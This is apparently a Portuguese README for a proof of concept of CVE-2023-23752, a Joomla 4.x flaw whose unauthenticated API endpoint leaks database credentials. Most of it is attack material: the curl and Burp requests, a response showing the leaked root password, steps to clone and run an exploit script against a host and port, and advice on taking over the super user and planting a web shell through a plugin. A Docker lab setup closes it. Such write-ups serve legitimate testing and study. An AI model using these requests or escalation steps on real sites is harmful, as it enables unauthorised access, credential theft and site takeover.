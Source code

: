# [CVE-2023-23752](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23752) Joomla! | Acesso impróprio de arquivos não autorizados

**Versão 4.0.0 a 4.2.7**

**Score [5.3 MEDIUM](https://nvd.nist.gov/vuln/detail/CVE-2023-23752)**

Para mais informações sobre a correção da falha:
https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html

Exemplo:


root@server:/# curl http://localhost:8080/api/index.php/v1/config/application?public=true

{"links":{"self":"http:\/\/localhost:8080\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/localhost:8080\/api\/index.php\/v1\/config\/applicationpublic=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/localhost:8080\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"Este site est\u00e1 fora do ar para manuten\u00e7\u00e3o.<br>Por favor, verifique novamente em breve.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"CVEpedia","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"joomladb","id":224}},{"type":"application","id":"224","attributes":**{"user":"root","id":224}}**,{"type":"application","id":"224","attributes":**{"password":"123pass123"**,"id":224}},{"type":"application","id":"224","attributes":{"db":"joomla_db","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"f4jpq_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}

## A Falha

A falha permite o acesso impróprio ao endpoint específico exibindo as credências do banco de dados em texto claro.

A URL vulnerável:

```http://<IP_ALVO>:8080/api/index.php/v1/config/application?public=true```

#### Falha pelo Burp
```
GET /api/index.php/v1/config/application?public=true HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### Falha via Curl

```
$ curl http://localhost:8080/api/index.php/v1/config/application?public=true
```

#### Exploit

```
git clone https://github.com/luisfelipe146/CVEpedia/tree/main/CVE-2023-23752
```

```
cd CVE-2023-23752
chmod +x CVE-2023-23752.sh
./CVE-2023-23752.sh localhost 8080
```

É possível acessar o banco de dados MYSQL com as credências obtidas e coletar a informação de qual o nome do super usuário e/ou alterar a senha.

##### Escalação de Privilégios

Através de Brute Force no Super Usuário ou trocando a senha pelo MYSql
https://vulncheck.com/blog/joomla-for-rce

Instalando um WebShell via plugins

https://github.com/p0dalirius/Joomla-webshell-plugin

Dicas

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

## Criando um Ambiente de testes via Docker 

Utilizando arquivo **yml**

```
version: '3.1'

services:
  joomla:
    image: joomla:4.2.7-php8.1-apache
    restart: always
    links:
      - joomladb:mysql
    ports:
      - 8080:80
    environment:
      JOOMLA_DB_HOST: joomladb
      JOOMLA_DB_PASSWORD: 123pass123 

  joomladb:
    image: mysql:5.6
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: 123pass123
```




